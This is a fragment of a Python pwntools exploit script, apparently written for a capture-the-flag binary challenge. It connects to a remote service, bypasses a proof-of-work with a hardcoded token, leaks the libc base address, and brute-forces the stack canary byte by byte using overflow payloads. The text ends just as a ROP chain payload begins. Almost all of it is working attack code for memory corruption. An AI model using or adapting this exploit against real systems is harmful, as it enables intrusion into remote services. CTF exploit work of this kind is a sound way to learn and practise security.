 ```python
    assert type(io) == process or type(io) == remote
    msg = encrypt(msg)
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size: ", str(len(msg)).encode())
    io.sendafter(b"message: ", msg)
    io.recvuntil(b"PID: ")
    return int(io.recvline().strip())

def get_msg(pid):
    assert type(io) == process or type(io) == remote
    while True:
        io.sendlineafter(b"> ", b"2")
        io.sendlineafter(b"PID: ", str(pid).encode())
        test = io.recv(1)
        if test == b"P":
            sleep(0.01)
            continue
        io.recvuntil(b": ")
        status = int(io.recvline().strip())
        # io.recvline()
        io.recvuntil(b"text:\n")
        ct = io.recvline().strip()
        break
    return status, ct


#
# EXPLOIT
#
def main(HOST, PORT):
    global io
    io = remote(HOST, PORT)

    POW_BYPASS = '3db1d47076b64cc30a2a8de68ee10e99'

    io.sendlineafter(b"Result:", f"99:{POW_BYPASS}".encode())

    io.sendafter(b"key: ", KEY)
    io.sendlineafter(b"blocks: ", b"8")
    io.recvline()
    libc.address = int(io.recvline().strip(), 16) - 0x29d90
    success(f"libc base: {hex(libc.address)}")

    # Bruteforce the stack canary
    # NOTE: This bruteforse approach is optimized for local testing, when
    # running, the exploit remotely is better to use a synchronous approach.
    canary = b"\x00"
    while len(canary) < 8:
        pids = []
        for i in range(256):
            payload = b"A" * (8 * 9)
            payload += canary + p8(i)
            pids.append((i, add_msg(payload)))
        for i, pid in pids:
            status, _ = get_msg(pid)
            if status == 0:
                canary += p8(i)

    canary = u64(canary.ljust(8, b"\x00"))
    success(f"canary: {hex(canary)}")

    # Send ROP chain
    payload = b"cat flag\x00"
```